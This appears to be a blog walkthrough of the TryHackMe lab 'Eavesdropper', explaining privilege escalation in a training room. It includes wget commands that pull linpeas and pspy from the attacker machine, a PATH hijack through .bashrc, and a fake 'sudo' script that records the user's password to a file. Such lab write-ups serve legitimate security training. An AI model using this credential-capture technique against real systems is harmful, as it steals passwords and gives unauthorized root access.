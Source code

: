 ```yaml
---
layout: post
title: "Eavesdropper"
date: 2023-03-04
ctf: true
excerpt: "Walkthrough for Eavesdropper on Try Hack Me"
tags: [Try Hack Me, Eavesdropper]
comments: false
---
```


# Eavesdropper

[Wreath](https://tryhackme.com/room/eavesdropper) is a Medium difficultt room available on [TryHackMe](https://tryhackme.com). The main challenge focuses on your enumeration skills to find something you can listen to to uncover the root user's password.

## Hints

<details><summary><strong>Room Hints</strong></summary>
<ul>
    <li>Snoop the processes and see if you can find anything interesting.
    <li>Can you hijack something to gain access?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1 - Download Keys

For this task, make sure you Download the provided task files and save the SSH private key to a directory on your attacker box. Complete this task once this has been done.

![Eavesdropper download SSH key](/assets/img/Eavesdropper-1.png)


### Task 2 - Find the Flag

This task wants you to connect with the provided SSH keys and put your enumeration skills to the test to find a way to escalate privileges.

![Eavesdropper Task 2](/assets/img/Eavesdropper-2.png)

First, we need to change the permissions on the provided SSH key with:

`chmod 600 idrsa.id-rsa`

![Eavesdropper chmod ssh key](/assets/img/Eavesdropper-3.png)

Next, let's connect to the target machine as frank with:

`ssh frank@<target ip> -i idrsa.id-rsa`

![Eavesdropper ssh Frank](/assets/img/Eavesdropper-4.png)

Next, let's copy linpeas over to the target machine. On your attacker machine, start an http server with python with:

`python3 -m http.server`

![Eavesdropper python http server](/assets/img/Eavesdropper-5.png)

Next, on your target machine, navigate to the /tmp directory and run:

`wget http://<attack machine ip>:8000/linpeas.sh`

![Eavesdropper download linpeas](/assets/img/Eavesdropper-6.png)

Next, make it executable with:

`chmod +x linpeas.sh`

and then run it with:

`./linpeas.sh`

This did not return anything too useful. Let's follow this same process to move pspy64 over to the victim machine:

![Eavesdropper download pspy](/assets/img/Eavesdropper-7.png)

This returns some interesting inforamtion. It appears that there's an automated process that is logging in as frank via ssh, and then using cat to list the data in the /etc/shadow file:

![Eavesdropper pspy processes](/assets/img/Eavesdropper-8.png)

What is interesting about this is that it is running sudo without a full path, and it is currently located in /usr/bin, which is not the first entry in the $PATH variable.

![Eavesdropper cat PATH](/assets/img/Eavesdropper-9.png)

Let's modify this to add /tmp to the beginning by modifying the .bashrc file in frank's home directory.

![Eavesdropper modify .bashrc](/assets/img/Eavesdropper-10.png)

Next, we need to make an executable "sudo" file in the /tmp directory that can be used to capture credentials.

The code I used to capture the password is as follows:

```
#!/bin/bash
read -sp "Give me your password please: " password
echo $password > /tmp/password.txt
echo "\n"
```

![Eavesdropper malicious sudo](/assets/img/Eavesdropper-11.png)

Next, in a second terminal window, I created another SSH session and logged in as frank:

![Eavesdropper frank 2nd SSH session](/assets/img/Eavesdropper-12.png)

As you can see in the screenshot above, /tmp is the first listing in the $PATH variable. Let's see if there's any information in the /tmp/password.txt file as we would expect with:

`cat /tmp/password.txt`

![Eavesdropper frank password](/assets/img/Eavesdropper-13.png)

We now have frank's password. Copy the value in the password.txt file and go back to your first ssh session and run:

`sudo su`

This will not work in the 2nd session since we hijacked the path, as it will try to run our malicious "sudo" file again. You could also specify the /usr/bin/sudo from the 2nd session to run the "real" sudo executable.

![Eavesdropper root access](/assets/img/Eavesdropper-14.png)

Next, navigate to the root user's home directory and print out the contents of the flag.txt file with:

`cat flag.txt`

![Eavesdropper root flag](/assets/img/Eavesdropper-15.png)

</details>